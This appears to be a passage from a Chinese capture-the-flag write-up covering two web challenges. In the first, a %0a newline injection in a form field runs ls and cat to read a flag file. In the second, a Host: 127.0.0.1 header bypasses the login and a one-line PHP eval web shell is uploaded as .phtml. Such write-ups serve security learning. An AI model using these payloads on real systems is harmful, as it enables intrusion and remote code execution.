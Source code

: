 ```python
    print base64_encode($tmp);

?>
```

 将得到的IV放到cookie中的token，访问得到flag。

### Get Flag

很典型的一个命令截断(&也可以)

%0a截断 导致命令执行

`flag=%0a+ls+../../&submit=`

解码base64，会有一个

```cat: images/: Is a directory 9iZM2qTEmq67SOdJp%!oJm2%M4!nhS_thi5_flag```

读取一下

flag=%0a+cat+../../9iZM2qTEmq67SOdJp%!oJm2%M4!nhS_thi5_flag&submit=

得到flag

### pictures' wall

很奇怪的题目- -

登录框无论输入啥都能登陆，系统提示需要管理员权限..怀疑不是用户名密码验证，尝试http头方面的绕过

脑洞一波。。host:127.0.0.1 绕过登陆，得到root权限（貌似就是实现了只能本地登陆的逻辑？但是，实现的不够好）

root有一个上传图片界面。。（fuzz一波，可以看到phtml可以上去。然后题目貌似过滤了?)

```Php
<script language="php"> @eval($_POST[xiaoxi])</script>

```

上传一个图片马，改后缀phtml

不过，这个题目确实非常奇怪。。

看了下源码：

```php
<?php
        $content=file_get_contents($_FILES["pic"]["tmp_name"]);
        if($filearr === "phtml"){
            if(preg_match("/.*<\?php.*/",$content)){
                die("Something shows it is a php file!");
            }
            if (!preg_match("/.*<script language=('|\")php('|\")>.*/",$content)) {
                die("Do you  want to  upload a php file?!");
            }
        }

 
```
